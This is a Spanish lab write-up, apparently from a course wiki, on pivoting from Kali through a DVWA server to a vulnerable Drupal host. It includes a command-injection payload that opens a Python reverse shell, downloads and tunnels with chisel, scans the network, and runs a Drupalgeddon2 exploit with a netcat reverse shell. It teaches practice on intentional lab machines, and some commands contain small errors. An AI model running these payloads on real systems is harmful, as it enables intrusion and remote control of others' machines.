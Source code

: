 ```yaml
---
title: Practica de pivotaje
description: En está pagina vamos a explicar como se hizo el pivotaje
published: true
date: 2024-12-30T11:44:42.905Z
tags: 
editor: markdown
dateCreated: 2024-12-20T19:29:42.236Z
---
```


# Práctica pivotaje
Bienvenido a la práctica de la máquina del pivotaje.
## Explicación
La práctica que vamos consiste en un pivotaje entre maquinas vulneradas.

### Requisitos
Debemos tener tres maquinas virtuales:
1. Máquina Kali o máquina Hacker, desde donde querremos infiltrarnos.
2. Servidor 1: Servidor DVWA en un Ubuntu Server.
3. Servidor 2: Servidor Devion7 en un Oracle.

Además deberemos tener dos redes NATs:
1. Red Kali - Dvwa
2. Red Dvwa - Devion7

### Configuración de DVWA
>  Partimos con que ya se ha instalado las máquinas necesarias y se han establecidos los requisitos correctamente.
{.is-info}

Dentro de la máquina DVWA, deberemos acudir a la ruta "**/etc/apach2/ports.conf**", aquí deberemos escribir:
`Listen 127.0.0.1:8000`

Tras esto acudiremos a la ruta "**/etc/apache2/sites-available**" y crearemos la carpeta "001-router.conf"
```bash
mkdir 001-internal.conf
```

Dentro de esta carpeta deberemos escribir lo siguiente:
```
<VirtualHost 127.0.0.1:8000>
	ServerName internal.cyberlab.local
  DocumentRoot /var/www/internal
 </VirtualHost>
```

Tras hecho esto, podremos hacer el comando:
```
sudo a2ensite 001-internal.conf
```

Y después deberemos hacer un:
```console
systemctl reload apache2
```

Con esto habremos creado un servicio en el puerto 8000, y será visible siempre y cuando hagamos una lectura en locahost:8000, esto lo usaremos más adelante para comprobar efectivamente que se ha hecho correctamente el pivotaje.

Haremos solo haremos una carpeta en la ruta indicada:
```console
vim /var/www/internal/index.html
```

Aquí pondremos lo que querramos para verificar que se ha hecho el pivotaje, un buen ejemplo puede ser:
\<h1> HOLAAA </h1\>


## Ejecución
### Control de DVWA
Lo primero que haremos será establecer un puerto de escucha en Kali, para ello haremos un: 
```console
nc -lvnp (Puerto)
```
Tras esto, como Kali, deberemos acudir al apartado de DVWA:Command Injection. Aquí deberemos escribir lo siguiente:
```console
127.0.0.1;export RHOST="IPKALI";export RPORT=PUERTOKALI;nohup python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' &
```

Esto lo hemos sacado de las siguiente URL: https://www.revshells.com
> En caso de error, comprueba que la dificultad está en low, el host y el puerto.
{.is-info}

Tras esto habremos hecho una shell reversa la cual tenemos total acceso y control. Ahora vamos a intentar crear un tunnel de comunicación entre la Kali y el DVWA, para ello vamos a usar Chisel. Lo primero que haremos será descargarnos el software en: https://github.com/jpillora/chisel/releases

Y nos descargaremos aquel fichero que ponga Linux_amd64.gz

Una vez descargado, lo descomprimimos y lo haremos un ejecutable. Eso lo haremos con los siguientes comandos:
```console
gzip -d chisel_1.10.1_linux_amd64.gz
mv chisel_1.10.1_linux_amd64 chisel
chmod +x chisel
```

Este archivo lo deberemos subir a la máquina de DVWA, para ello deberemos crear un servicio web en Kali con el siguiente comando:
```console
python3 -m http.server
```
> Importante ejecutar este comando en la misma cartepa donde esta el chisel descargado.
{.is-info}

Y ahora en la máquina de DVWA, vamos a poner:
```console
curl http://(maquinaKali)/chisel -o chisel
```

Si hacemos esto de forma correcta, la máquina DVWA habrá descargado el fichero, podemos comprobarlo con un ls.

Perfecto, ahora vamos a modificar el Socks5. Esto es para poder establecer una conexión muchisimo mas comoda entre Kali y DVWA, para ello vamos a tener que modificar lo siguiente:
```console
nano /etc/proxychains4.conf
```
Deberemos fijarnos que en la primera zonas de texto, esté presente **strict_chain** y después al final deberemos comentar la linea **socks4 127.0.0.1 9050**, y escribiremos en su lugar **socks5 127.0.0.1 1080**.
![image.png](/imagen_hacking_pivotaje_1.png)

Luego en la herramienta de FoxyProxy, vamos a añadir una nueva entrada con lo siguiente:
![imagen_hacking_pivotaje_2.png](/imagen_hacking_pivotaje_2.png)

> No lo activamos todavia
{.is-warning}

Tras esto, tendremos listo un proxy que puede analizar todas las peticiones como si estuvieramos viendolo desde el seridor DVWA.

Lo siguiente que haremos será establecer la conexión con chisel para poder, para ello en Kali escribiremos: 
```console
./chisel server -p 4000 --reverse
```

En nuestra maquina vulnerada (DVWA), deberemos escrbir lo siguiente:
```console
./chisel client (ip kali):4000 R:8000:127.0.0.1:8000
```

Si todo va bien, desde nuestra maquina local podremos buscar el servidor local que hicimos en DVWA:
![imagen_hacking_pivotaje_3.png](/imagen_hacking_pivotaje_3.png)


Ahora vamos a usar el socks5 que configuramos anteriormente. Para ello deberemos poner en nuestra maquina local:
```console
./chisel server -p 4000 --reverse --socks5
```

Y en nuestra maquina DVWA, vamos a poner:
```console
./chisel server -p 4000 --reverse R:socks
```


Tras esto, si activamos el proxy, podremos hacer la busqueda del servidor directametne en el navegador.

### Entrar en Debian
Para poder tener acceso a este nuevo servidor, como ya tenemos una shell ocupada con la comunicaciones, vamos a abrir un nueva shell. Para ello deberemos hacer los mismos paso que hicimos anteriormente (nc -lnvp).
Una vez tengamos una nueva shell, vamos a intentar descubrir las IP locales en esta red, para ello primero hacemos:
```script
ip a
```

Y una vez sepamos el rango de la IP, en mi caso 10.0.0.6/24. Vamos a poner un pequeño script en la máquina DVWA para detectar el resto de IPs, el escript es el siguiente:
```script
for j in $(seq 1 10);do ping -c 1 10.0.3.$j > /dev/null && echo "host activo 10.0.3.$j";done
```
Esto nos devolverá un listado grande de IPs por lo que deberemos deducir cuál es el server, para ello podemos hacer uso de nmpa con:
```bash
proxychains4 -q nmap -sT -Pn 10.0.3.4
```
> Ir probando la IP con cada uno de los resultados para ver los puertos disponibles.
{.is-info}

Cuando entramos en el website, podemos descrubir que es un servidor Drupal con una vulnerabilidad de Drupalgeddon2. Por lo que podemos usar el exploit (Disponible en GitHub), para poder explotarlo.

Una vez tengamos el exploit disponible vamos a realizar lo siguiente:
- En una terminal de DVWA vamos a poner:
```bash
./chisel client (kali):4000 0.0.0.0:9999:(kali):9999
```
- En una terminal de kali:
```bash
nc -lnvp 9999
```
- En otra terminal de kali, sin cerrar la anterior:
```bash
proxychains 4 -q python2 exploit.py -h http://(ip/ dc-1) -c 'nohup nc -e /bin/bash (Ip Dvwa) 9999 &'
```